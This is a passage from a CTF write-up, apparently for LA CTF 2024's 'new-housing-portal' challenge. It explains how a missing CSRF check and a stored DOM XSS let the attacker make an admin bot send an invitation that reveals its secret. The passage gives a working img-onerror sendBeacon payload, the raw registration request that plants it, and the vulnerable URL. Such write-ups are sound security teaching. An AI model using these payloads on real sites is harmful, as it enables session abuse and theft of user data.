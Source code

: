 ```javascript

  res.redirect('/finder?msg=' + encodeURIComponent('invitation sent!'));
});
[...]
```

When we invite someone, the endpoint **doesn't have any CSRF (Cross-Site Request Forgery) protection**! That being said, **this route is vulnerable to CSRF**!

Then, since we can read the `deepestDarkestSecret` in the "View Invitations" page, we can **exfiltrate `deepestDarkestSecret` by exploiting CSRF**!

## Exploitation

Armed with above information, we can now exfiltrate `samy`'s `deepestDarkestSecret`!

**Payload:**
```html
<img src=x onerror="navigator.sendBeacon('/finder', new URLSearchParams({username : '<username_here>'}))">
```

The above XSS payload will make the victim to send a new invite to our user. Then we can view our invitation and exfiltrate `deepestDarkestSecret`.

- Register a new user with XSS payload:

```http
POST /register HTTP/2
Host: new-housing-portal.chall.lac.tf
Content-Type: application/x-www-form-urlencoded

username=xss_user&password=pwd&name=<img+src%3dx+onerror%3d"navigator.sendBeacon('/finder',+new+URLSearchParams({username+%3a+'siunam321'}))">&deepestDarkestSecret=foobar
```

- Send the roomates finder link with our XSS user to the admin bot:

**Vulnerable DOM-based XSS URL:**
```
https://new-housing-portal.chall.lac.tf/finder/?q=xss_user
```

![](https://github.com/siunam321/CTF-Writeups/blob/main/LA-CTF-2024/images/Pasted%20image%2020240219135217.png)
